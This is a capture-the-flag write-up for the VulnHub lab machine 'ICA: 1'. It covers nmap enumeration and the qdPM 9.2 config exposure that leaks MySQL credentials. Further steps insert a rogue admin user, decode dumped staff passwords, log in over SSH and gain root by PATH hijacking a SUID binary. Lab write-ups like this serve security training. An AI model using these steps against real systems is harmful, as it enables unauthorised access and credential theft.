


# Info

ICA: 1

https://www.vulnhub.com/entry/ica-1,748/

According to information from our intelligence network, ICA is working on a secret project. We need to find out what the project is. Once you have the access information, send them to us. We will place a backdoor to access the system later. You just focus on what the project is. You will probably have to go through several layers of security. The Agency has full confidence that you will successfully complete this mission. Good Luck, Agent!

# My rating
Fun: 5/5
Interresting: 4/5 
Difficult: 3/5

# Enumeration 

```bash
nmap 192.168.56.1/24                                                                                          130 ⨯

Nmap scan report for 192.168.56.12
Host is up (0.00036s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
```

```bash
searchsploit qdpm 9.2 
-------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                        |  Path
-------------------------------------------------------------------------------------- ---------------------------------
qdPM 9.2 - Cross-site Request Forgery (CSRF)                                          | php/webapps/50854.txt
qdPM 9.2 - Password Exposure (Unauthenticated)                                        | php/webapps/50176.txt
-------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results

cat /usr/share/exploitdb/exploits/php/webapps/50176.txt              
# Exploit Title: qdPM 9.2 - DB Connection String and Password Exposure (Unauthenticated)
# Date: 03/08/2021
# Exploit Author: Leon Trappett (thepcn3rd)
# Vendor Homepage: https://qdpm.net/
# Software Link: https://sourceforge.net/projects/qdpm/files/latest/download
# Version: 9.2
# Tested on: Ubuntu 20.04 Apache2 Server running PHP 7.4

The password and connection string for the database are stored in a yml file. To access the yml file you can go to http://<website>/core/config/databases.yml file and download.  
```

```yaml
all:
  doctrine:
    class: sfDoctrineDatabase
    param:
      dsn: 'mysql:dbname=qdpm;host=localhost'
      profiler: false
      username: qdpmadmin
      password: "<?php echo urlencode('UcVQCMQk2STVeS6J') ; ?>"
      attributes:
        quote_identifier: true  
  
```




 mysql -h 192.168.56.12 -u qdpmadmin -p 


 ```mysql
MySQL [qdpm]> select * from users;
Empty set (0.001 sec)

MySQL [qdpm]> desc users;
+----------------+--------------+------+-----+---------+----------------+
| Field          | Type         | Null | Key | Default | Extra          |
+----------------+--------------+------+-----+---------+----------------+
| id             | int          | NO   | PRI | NULL    | auto_increment |
| users_group_id | int          | YES  | MUL | NULL    |                |
| name           | varchar(255) | NO   |     |         |                |
| photo          | varchar(64)  | YES  |     | NULL    |                |
| email          | varchar(255) | NO   |     |         |                |
| culture        | varchar(5)   | YES  |     | NULL    |                |
| password       | varchar(64)  | NO   |     |         |                |
| active         | tinyint(1)   | YES  |     | NULL    |                |
| skin           | varchar(64)  | YES  |     | NULL    |                |
+----------------+--------------+------+-----+---------+----------------+
9 rows in set (0.010 sec)


MySQL [qdpm]> insert into  users (users_group_id, name,email,password, active) VALUES (1, "test", "test@local.com", md5("test"), 1);

 ```

 ```mysql
MySQL [staff]> use staff;
Database changed

MySQL [staff]> select name, role, password from user as u join login as l where l.user_id = u.id; 
+--------+---------------------------+--------------------------+
| name   | role                      | password                 |
+--------+---------------------------+--------------------------+
| Lucas  | Computer Engineer         | c3VSSkFkR3dMcDhkeTNyRg== | 
| Dexter | Cyber Security Analyst    | N1p3VjRxdGc0MmNtVVhHWA== | 
| Smith  | Cyber Security Specialist | WDdNUWtQM1cyOWZld0hkQw== | 
| Travis | Intelligence Specialist   | REpjZVZ5OThXMjhZN3dMZw== | 
| Meyer  | Genetic Engineer          | Y3FObkJXQ0J5UzJEdUpTeQ== | 
+--------+---------------------------+--------------------------+
5 rows in set (0.002 sec)

 ```

```bash
Lucas - c3VSSkFkR3dMcDhkeTNyRg== -> suRJAdGwLp8dy3rF
Dexter - N1p3VjRxdGc0MmNtVVhHWA== -> 7ZwV4qtg42cmUXGX (ssh login)
Smith  - WDdNUWtQM1cyOWZld0hkQw== -> X7MQkP3W29fewHdC
Travis - REpjZVZ5OThXMjhZN3dMZw== -> DJceVy98W28Y7wLg
Meyer - Y3FObkJXQ0J5UzJEdUpTeQ== -> cqNnBWCByS2DuJSy
```


```bash
dexter@debian:~$ cat note.txt 
It seems to me that there is a weakness while accessing the system.
As far as I know, the contents of executable files are partially viewable.
I need to find out if there is a vulnerability or not.

dexter@debian:~$ ls -l /home
total 8
drwxrwx--- 3 dexter dexter 4096 Sep 25  2021 dexter
drwxrwx--- 3 travis travis 4096 Sep 25  2021 travis
```

```bash

travis@debian:/home/travis$ cat user.txt 
ICA{Secret_Project}
```

```bash
ind / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
-rwsr-xr-x 1 root root 16816 Sep 25  2021 /opt/get_access
-rwsr-xr-x 1 root root 58416 Feb  7  2020 /usr/bin/chfn
-rwsr-xr-x 1 root root 35040 Jul 28  2021 /usr/bin/umount
-rwsr-xr-x 1 root root 88304 Feb  7  2020 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 182600 Feb 27  2021 /usr/bin/sudo
-rwsr-xr-x 1 root root 63960 Feb  7  2020 /usr/bin/passwd
-rwsr-xr-x 1 root root 44632 Feb  7  2020 /usr/bin/newgrp
-rwsr-xr-x 1 root root 71912 Jul 28  2021 /usr/bin/su
-rwsr-xr-x 1 root root 55528 Jul 28  2021 /usr/bin/mount
-rwsr-xr-x 1 root root 52880 Feb  7  2020 /usr/bin/chsh
-rwsr-xr-x 1 root root 481608 Mar 13  2021 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 51336 Feb 21  2021 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
dexter@debian:~$ /opt/get_access 

  ############################
  ########     ICA     #######
  ### ACCESS TO THE SYSTEM ###
  ############################

  Server Information:
   - Firewall:  AIwall v9.5.2
   - OS:        Debian 11 "bullseye"
   - Network:   Local Secure Network 2 (LSN2) v 2.4.1

All services are disabled. Accessing to the system is allowed only within working hours.
```




```bash 
echo "#!/bin/bash" > cat
echo "bash" >> cat
chmod +x cat

export PATH=.:$PATH
/opt/get_access 
```

```bash
root@debian:/root# cat root.txt 
ICA{Next_Generation_Self_Renewable_Genetics}
```